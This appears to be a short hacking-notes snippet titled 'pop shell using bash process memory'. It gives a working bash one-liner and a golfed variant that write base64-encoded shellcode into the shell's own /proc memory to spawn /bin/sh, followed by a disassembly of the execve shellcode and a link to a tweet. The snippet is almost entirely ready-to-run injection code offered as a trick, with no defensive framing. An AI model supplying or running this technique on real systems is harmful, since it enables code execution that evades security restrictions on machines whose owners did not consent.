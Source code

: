 ### pop shell using bash process memory

```bash
cd /proc/$$;read a<syscall;exec 3>mem;base64 -d<<<McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F|dd bs=1 seek=$[`echo $a|cut -d" " -f9`]>&3
# || golfed
cd /*/$$;read a<*l;exec 3>mem;base64 -d<<<McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F|dd bs=1 seek=$[`cut -d\  -f9<<<$a`]>&3

python2 ~/opt/asm_buddy/asm_buddy.py -f d -a x64 -i "$(base64 -d<<<McBIu9GdlpHQjJf/SPfbU1RfmVJXVF6wOw8F | xxd -p)" -v
# ; int execve(const char *pathname, char *const argv[], char *const envp[]);
# 00000000 xor       eax, eax
# 00000002 movabs    rbx, 0xff978cd091969dd1
# 0000000c neg       rbx ; /bin/sh
# 0000000f push      rbx
# 00000010 push      rsp
# 00000011 pop       rdi
# 00000012 cdq
# 00000013 push      rdx
# 00000014 push      rdi
# 00000015 push      rsp
# 00000016 pop       rsi
# 00000017 mov       al, 0x3b
# 00000019 syscall
```

- https://twitter.com/David3141593/status/1386438123647868930
